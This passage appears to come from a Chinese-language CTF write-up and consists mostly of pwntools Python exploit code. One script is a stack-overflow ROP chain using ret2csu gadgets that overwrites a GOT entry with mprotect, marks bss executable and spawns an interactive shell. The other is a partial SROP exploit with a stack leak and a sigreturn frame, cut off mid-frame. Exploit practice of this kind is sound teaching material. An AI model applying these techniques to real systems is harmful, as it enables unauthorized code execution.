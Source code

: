 ```python

target_got=elf.got['__gmon_start__']
print target_got
#payload3='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(target_plt)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
payload3='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(target_got)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Input:\n')
p.sendline(payload3)
#gdb.attach(p)
target=libc_base+libc.symbols['mprotect']
print hex(target)
p.sendline(p64(target))

#gdb.attach(p)
payload4='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(target_got)+p64(0x7)+p64(0x1000)+p64(bss_addr-0xa88)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.sendline(payload4)

p.recvuntil('Input:\n')
payload5='a'*136+p64(bss_addr)
#gdb.attach(p)
p.sendline(payload5)
p.sendline('ls')
p.interactive()
```

---

上一道题的SROP-smallest也可以使用mprotect更改权限，感兴趣可以试试：

```python
###https://bestwing.me/2017-360chunqiu-online.html
# -*-coding:utf-8-*-
__author__ = 'joker'

from pwn import *
context.log_level = "debug"
context.arch = "amd64"

r = process("./smallest")

syscall_addr = 0x4000BE
start_addr = 0x4000B0

payload = p64(start_addr)
payload += p64(start_addr)#fill
payload += p64(start_addr)#fill
r.send(payload)
raw_input("joker")

#write infor leak
r.send("\xb3")#write 2 start_addr last byte
data = r.recv(8)
data = r.recv(8)
stack_addr = u64(data)
print "[*]:stack:{0}".format(hex(stack_addr))

frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = stack_addr
frame.rdx = 0x300
frame.rsp = stack_addr
```